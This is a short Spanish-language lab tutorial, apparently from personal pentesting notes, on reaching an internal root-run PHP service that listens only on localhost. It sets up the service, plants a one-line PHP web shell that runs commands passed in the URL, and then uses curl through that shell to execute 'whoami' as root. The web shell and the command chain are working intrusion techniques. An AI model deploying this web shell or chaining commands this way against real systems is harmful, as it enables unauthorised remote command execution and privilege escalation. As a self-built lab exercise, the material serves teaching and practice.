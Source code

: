 ### 🚀 Preparación del Entorno

1. **Montar servidor Apache** - Ver: [[Montar Servidor Apache - Docker]]

2. **Configurar servicio PHP interno:**

```bash
# Dentro del contenedor (ejecutado por root)
php -S 127.0.0.1:8000
```

3. **Crear archivo de ejecución remota:**

```php
<?php system($_GET['cmd']); ?>
```

> [!tip] **Ubicación**: Crear este archivo tanto en Apache como en el servicio PHP interno


### 🔎 Fase de Reconocimiento

#### Escaneo Externo (Fallará)

```bash
nmap -p8000 --open -T5 -v -n <ip_victima>
```

> [!warning] **Resultado Esperado** El puerto 8000 **NO aparecerá** porque solo escucha en localhost

#### Enumeración Interna

Una vez obtenido acceso al sistema:

```bash
# Enumerar puertos internos con netstat
netstat -nat
```

**Ejecución vía web shell:**

```http
http://<ip_victima>/cmd.php?cmd=netstat -nat
```

### ⚡ Explotación

> [!example] **Comando de Explotación**
> 
> ```http
> http://<ip_victima>/cmd.php?cmd=curl http://localhost:8000/cmd.php?cmd=whoami
> ```

#### 🎯 Resultado Esperado

```bash
root
```

